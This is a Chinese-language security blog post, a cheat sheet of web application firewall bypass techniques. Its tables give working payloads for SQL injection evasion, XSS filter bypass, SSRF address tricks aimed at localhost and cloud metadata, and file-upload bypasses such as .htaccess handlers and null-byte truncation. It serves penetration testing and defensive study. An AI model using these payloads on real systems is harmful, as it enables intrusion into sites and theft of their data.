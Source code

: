 ```yaml
---
date: 2021-02-11
title: WAF bypass技巧
#subtitle: 
categories: [安全]
tags: [web]
---
```


> WAF : Web应用防护系统（也称为：网站应用级入侵防御系统。英文：Web Application Firewall，简称： WAF）。利用国际上公认的一种说法：Web应用防火墙是通过执行一系列针对HTTP/HTTPS的安全策略来专门为Web应用提供保护的一款产品。

1.1 寻找真实IP

<img src="https://i.loli.net/2021/02/08/4i9xt2ROmVPE5N6.png" alt="e7d9f2da-0fac-432b-bf65-bc3b66afa3d3" style="zoom:50%;" />

* 域名历史解析记录
* 内部邮箱源
* 扫描网站测试文件
* 子域名所在IP段
* 信息泄露
* 国外访问
* APP抓包

1.2 注入绕过

| **绕过方式**       | **例子**                                                     | **说明**                                                     |
| ------------------ | ------------------------------------------------------------ | ------------------------------------------------------------ |
| **大小写绕过**     | **UniOn SeleCt**                                             | **针对特定关键字，大小写不敏感，SQL语句不分大小写**          |
| **双写绕过**       | **Ununionion seselectlect**                                  | **过滤后仍是注入语句（只过滤了一次）**                       |
| **内联注释绕过**   | **and /******!*****select \* from test\*/**                  | **mysql扩展功能，在/\*后加惊叹号，注释中的语句会被执行**     |
| **注释符绕过**     | **uni/\**/on se/\**/lect**                                   | **注释符号不影响语句的连接**                                 |
| **对or/and的绕过** | **and = &&，or = \|\|**                                      | **等价逻辑符号**                                             |
| **对单引号的绕过** | **十六进制编码** **宽字节注入** **http://www.xxx.com/login.php?user=%df****’ or 1=1**  　**%df****’转义后为=%df%5c%27=運’** 　**select \* fromcms_user where username = ‘運’ or 1=1** | **数值型可以不加单引号** **将转义符号闭合掉** **mysql使用GBK多字节编码，GPC开启(php.ini，magic_quotes_gpc = On)，输入%df%27时首先经过上面提到的转义就会变成%df%5c%27(%5c就是反斜杠)。之后再数据库查询由于使用了GBK多字节编码，即在汉字编码范围内两个字节会被编码为一个汉字，然后MySQL服务器会对查询语句进行了GBK编码%df%5c转换成汉字，而单引号逃出了** |
| **等价函数替换**   | **hex() bin() 等价于ascii()** **Sleep() 等价于benchmark()**  | **函数结果相同**                                             |
| **空格绕过**       | **select/\**/\*/\**/from/\**/yz;** **select%0a\*%0afrom%0ayz; %0a 是回车** **select(a)from(yz);** | **使用其他字符替换空格**                                     |





1.3 XSS绕过

反射型：

<img src="https://i.loli.net/2021/02/08/L9GFTpHRDWi2XZn.png" alt="1" style="zoom:33%;" />

存储型：

<img src="https://i.loli.net/2021/02/08/rc3XHKfvDhjJiuZ.png" alt="3" style="zoom:33%;" />



| **绕过方式**         | **例子**                                                     | **说明**                                                     |
| -------------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| **标签闭合**         | **<script> var aaa="123" ;</script>,可控为aaa的值，那么可以使用 "> 闭合来绕过，<script> var aaa=""></script><script>alert(1)</script>"</script>** | **利用"> </script>等标签来闭合前面标签来达到绕过插入任意JS的效果** |
| **标签优先性**       | **<noscript><img src="asdasd</noscript><img src=\* onerror=prompt(1)>"></noscript>** | **利用标签解析的优先性绕过。** **比如<noscript >标签比<img>标签解析优先性更高，所以</noscript >会优先闭合，导致<img>标签逃逸，从而造成xss执行** |
| **常见编码**         | **<a href=javascript:alert(2)>a</a>**  **<a href=javascript://baidu.com%0aalert(document.domain)>aa</a>>**  **<svg/onload=setTimeout('\x61\x6C\x65\x72\x74\x28\x31\x29')>** | **利用常见的一些编码方式去绕过。比如利用 : 当成 冒号: 来绕过，( 和 ) 等效与左右括号 ()**  **可控点在Json中时可使用Unicode编码绕过，在url中可用使用url双重编码等绕过** **%0a 为换行的URL编码，可以用来绕过一些Waf，从而执行后面的alert，类似于 Mysql中的%0a换行** 利用**各种类型的进制转换也可以用来绕过xss防御** |
| **浏览器差异**       | **<math><maction actiontype="statusline" xlink:href="javascript:prompt(3)">Test</maction></math>** **比如 .url 后缀文件也可用造成xss**  **比如利用IE浏览器中也有一些特性或者函数** **<iframe src="vbscript:msgbox(1)"></iframe>** | **比如<math>标签在Firfox浏览器可以解析并造成XSS漏洞，可以用来绕过黑名单等**  **.url 后缀文件在Firfox浏览器中也会解析成htm文件，也会造成xss**  **比如利用IE浏览器中一些独特函数来执行xss** |
| **关键字、函数绕过** | **<img src=x onerror="top['al'+'ert'](0)"></img>** **<script>alert?.(123)</script>** | **利用JS的特性，以拼接的方式来组合关键字，从而绕过waf的关键字检测** **加入一些特殊字符也可以绕过waf对关键函数的检测** |
| **Fuzz**             | **JSFuck**                                                   | **可以利用Fuzz来发现一些黑名单中未包含到的标签、事件、关键函数** |

1.4 SSRF绕过

| **绕过方式**                   | **例子**                                                     | **原理**                                                     |
| ------------------------------ | ------------------------------------------------------------ | ------------------------------------------------------------ |
| **进制转换**                   | **十进制** **http://2130706433/ =** **http://127.0.0.1** **http://3232235521/ =** **http://192.168.0.1** **http://3232235777/ =** **http://192.168.1.1** **http://2852039166/  =** **http://169.254.169.254** **十六进制** **http://0x7f000001/ =** **http://127.0.0.1** **http://0xc0a80014/ =** **http://192.168.0.20** | **利用十进制、十六进制形式的ip绕过检测，十进制、十六进制的ip在请求时会正常解析，但检测时可能遗漏** |
| **特殊ip形式**                 | **http://[::]:80/=127.0.0.1** **http://127.127.127.127** **127.0.0.1.xip.io** **127。0。0。1  =  127.0.0.1** **http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ =** **example.com** **http://[0:0:0:0:0:ffff:127.0.0.1]** | **利用 [::]、CIDR （ip划分方法）绕过****localhost****限制**   **利用封闭式字母数字绕过检测** **利用ipv6绕过检测** |
| **正则缺陷**                   | **http://127.1.1.1:80****\@127.2.2.2:80/** **http://127.1.1.1:80****:\@@127.2.2.2:80/** **http://127.1.1.1:80#****\@127.2.2.2:80/** **http://endswith{domain}/** **http://{domain}.****localhost** | **利用检测正则表达式缺陷绕过，如仅检测字符串是否包含白名单域名或以白名单域名结尾，或者正则未转义点号导致绕过等** |
| **解析库与请求库差异导致绕过** | **http://1.1.1.1** **&@2.2.2.2# @3.3.3.3/** **urllib2 : 1.1.1.1** **requests + browsers : 2.2.2.2** **urllib : 3.3.3.3** | **利用检测时使用的URL parse库与请求时使用的parse库的差异绕过，如** **http://1.1.1.1** **&@2.2.2.2# @3.3.3.3/ 不同的parse库的解析结果不一样** |
| **302跳转绕过**                | **Create a page on a whitelisted host that redirects requests to the SSRF the target URL** | **利用可信域名的302跳转绕过检测**                            |
| **dnsrebind绕过**              | **Create a domain that change between two IPs**              | **设置两条A记录**，**利用dns重绑定绕过检测，第一次解析返回正常ip，第二次返回内网地址（dns解析记录缓存存活的时间为0，相当于每次解析都要去重新请求dns服务器，无法在本地缓存）** |

1.5 上传绕过

![f31e7508-93be-4fcf-a9aa-7f0316e5c1f8](https://i.loli.net/2021/02/08/JC2o7TOPcXYsDZN.png)

| **绕过方法**           | **例子**                                                     | **原理**                                                     |
| ---------------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| **js检查**             | **绕过前端**                                                 | **通过抓包提交，绕过前端js检测** **删除对js验证脚本的调用，使其不能对上传的文件类型做检测，从而达到绕过** |
| **上传特殊可解析后缀** | **jsp jspx jspf** **asp asa cer aspx** **php  php3 php4 pht phtml** | **绕过黑名单，同样可以执行脚本**                             |
| **上传.htaccess**      | **<FilesMatch "bytedance">**          **SetHandler application/x-httpd-php </FilesMatch>** | **htaccess文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置.通过htaccess文件，可以实现:网页301重定向、自定义404页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能。**    **通过.htaccess文件，调用php的解析器解析一个文件名只要包含“bytedance”这个字符串的任意文件** |
| **后缀大小写绕过**     | **1.php   ==>   1.pHP**                                      | **由于windows不区分大小写，后端校验未使用strtolower等函数将文件后缀大小写统一处理，导致黑名单不完整而绕过** |
| **空格绕过**           | **1.php   ==>   1.php（空格）**                              | **由于Windows处理文件时，会自动删除文件后缀带有的空格和点，从而导致绕过** |
| **::DATA绕过**         | **1.php::$DATA==>1.php**                                     | **Windows的一种流文件格式，上传这种格式流文件格式的同时会在相同目录下生成一个含有相同内容宿主文件** |
| **双写后缀绕过**       | **1.phphpp  ==> 1.php**                                      | **后端过滤时，使用了preg_replace等替换函数将php关键字替换为空，但是却没有循环替换，导致前面的ph和后面的p重新组合成php，从而导致绕过** |
| **MIME绕过**           | **GIF        image/gif** **JPG        image/pjpeg        image/jpeg** **ZIP        application/x-compressed        application/octet-stream** **JSP        text/html**  **EXE        application/octet-stream** | **修改Content-Type中为允许的类型**                           |
| **%00截断**            | **1.php%00a.jpg=1.php**                                      | **PHP<5.3.29，且GPC关闭时，%00在URL中充当结束符，当解析到%00时，解析器就会认为字符串已经读取完毕（%00截断主要用在路径上的截断）** |
| **0x00截断**           | **1.php.jpg==>1.php0x00jpg(0x00为16进制)**                   | **PHP<5.3.29，且GPC关闭时，0x00截断其实也是16进制截断，需要修改16进制的数据头，0x00也是截断符号，0x00就是%00解码成的16进制，原理其实与%00截断一样** |
| **文件头检查绕过**     | **GIF89a或在图片中插入一句话**                               | **检查指定文件头时可绕过**                                   |
| **二次渲染绕过**       | **寻找图片渲染后没有变化的部分，插入一句话**                 | **恶意脚本不被渲染掉**                                       |
| **条件竞争**           | **与后端代码写法有关。比如先上传文件后，再检查文件后缀是否合法，不合法就再删除。** | **利用条件竞争删除文件时间差绕过。在文件上传到服务器，程序还未执行到删除文件代码之前，通过快速发送大量的数据包提前执行程序，达到绕过** |
| **解析漏洞绕过**       | **参考解析漏洞表格**                                         | **参考解析漏洞表格**                                         |

1.6 其他方法

1.HTTP和HTTPS同时开放服务，没有做HTTP到HTTPS的强制跳转，导致HTTPS有WAF防护，HTTP没有防护，直接访问HTTP站点绕过防护。

2.当提交GET、POST同时请求时，进入POST逻辑，而忽略了GET请求的有害参数输入,可轻易Bypass。

